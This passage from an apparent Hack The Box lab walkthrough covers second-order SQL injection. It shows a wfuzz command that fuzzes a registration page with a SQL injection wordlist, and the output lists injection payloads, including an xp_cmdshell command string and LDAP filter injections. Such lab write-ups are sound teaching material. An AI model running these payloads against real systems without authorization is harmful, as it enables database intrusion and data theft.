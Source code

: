 ![b6096c25.png](/assets/images/posts/secnotes-htb-walkthrough/b6096c25.png)
</a>

### 2nd-order SQL Injection

Hmm. Let's use `wfuzz` to inject common SQL injection strings into the registration page just to see what we get. Here, I'm soliciting `200` responses to see what's going on with the registration. Typically, a successful registration will return a `302` response.

```
# wfuzz -w /usr/share/wfuzz/wordlist/Injections/SQL.txt -t 20 --sc 200 -d "username=dickFUZZ&password=password&confirm_password=password" http://10.10.10.97/register.php

********************************************************
* Wfuzz 2.3.3 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.97/register.php
Total requests: 125

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000083:  C=200     40 L      116 W         1689 Ch        "t'exec master..xp_cmdshell 'nslookup www.google.com'--"
000096:  C=200     40 L      115 W         1643 Ch        "%27%20or%201=1"
000100:  C=200     40 L      110 W         1625 Ch        "&apos;%20OR"
000105:  C=200     40 L      113 W         1637 Ch        "*|"
000104:  C=200     40 L      113 W         1636 Ch        "%7C"
000107:  C=200     40 L      113 W         1647 Ch        "*(|(mail=*))"
000109:  C=200     40 L      113 W         1654 Ch        "*(|(objectclass=*))"
000113:  C=200     40 L      113 W         1636 Ch        ")"
```